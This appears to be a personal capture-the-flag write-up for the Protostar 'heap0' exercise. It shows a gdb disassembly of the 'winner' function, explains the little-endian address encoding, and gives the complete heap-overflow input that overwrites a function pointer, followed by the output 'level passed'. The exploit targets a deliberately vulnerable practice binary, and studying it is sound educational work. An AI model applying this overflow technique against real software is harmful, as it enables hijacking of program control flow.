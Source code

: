 ```
(gdb) disassemble winner
Dump of assembler code for function winner:
0x08048464 <winner+0>:	push   ebp
0x08048465 <winner+1>:	mov    ebp,esp
0x08048467 <winner+3>:	sub    esp,0x18
0x0804846a <winner+6>:	mov    DWORD PTR [esp],0x80485d0
0x08048471 <winner+13>:	call   0x8048398 <puts@plt>
0x08048476 <winner+18>:	leave  
0x08048477 <winner+19>:	ret    
End of assembler dump.
(gdb) 
```

The concept works. (\~‾▿‾)\~  All that's needed now is to replace` 'bcde`' with the actual address of` <winner>` (which is *0x8048464*). Note that it has to be entered as `\x64\x84\x04\x08` due to little-endianness.
This gives us the winning input. See below.

```
user@protostar:/opt/protostar/bin$ echo -e '\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x64\x84\x04\x08' | xargs ./heap0
data is at 0x804a008, fp is at 0x804a050
level passed
```
##### Special note to myself
I faced problem trying to insert hex values as argument in gdb so I could troubleshoot the winning input. `set args` command in gdb does not work with hex values. 

END

